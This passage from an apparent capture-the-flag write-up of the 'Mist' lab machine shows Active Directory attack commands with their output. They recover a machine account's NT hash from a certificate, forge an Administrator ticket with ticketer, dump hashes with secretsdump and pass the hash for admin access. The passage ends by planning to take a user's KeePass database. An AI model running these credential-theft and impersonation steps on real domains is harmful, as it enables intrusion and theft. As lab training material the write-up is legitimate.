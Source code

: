 ```bash
proxychains gettgtpkinit.py -cert-pfx 'impacket/examples/IJWC1bV3.pfx' -pfx-pass "6UZDUfBImctdBS4oj9xj" "mist.htb/MS01$" "MS01.ccache" -dc-ip 192.168.100.100

export KRB5CCNAME=MS01.ccache

proxychains getnthash.py 'mist.htb/ms01$' -key 275374bded42c17bada4360cb94365b3a1520be774e10f8e889706710b7951e1
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  MIST.HTB:88  ...  OK
Recovered NT Hash
d0[...]26
```
Now we need to impersonate Administrator to DCSync because MS01$ can't :

```bash
proxychains -q ticketer.py -nthash d0db4014a7dff4c5592ae28ba6c0d326 -domain-sid S-1-5-21-1045809509-3006658589-2426055941 -domain mist.htb -dc-ip 192.168.100.100 -spn HOST/MS01.mist.htb administrator
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for mist.htb/administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in administrator.ccache

export KRB5CCNAME=administrator.ccache

proxychains secretsdump.py -k -no-pass MS01.mist.htb

Administrator:500:aad3b435b51404eeaad3b435b51404ee:71[...]97b:::

proxychains -q nxc smb 192.168.100.101 -u 'Administrator' -H '71[...]97b' --local-auth
SMB         192.168.100.101 445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         192.168.100.101 445    MS01             [+] MS01\Administrator:71[...]97b (admin)
```
Nice !!! 

## Crack KeePass 

Ok now we can just evil-winrm as Administrator on MS01 and go to ```C:\Users\Sharon.Mullard\Documents```, get the keepass, get also ```C:\Users\Sharon.Mullard\Pictures\image_20022024.png```
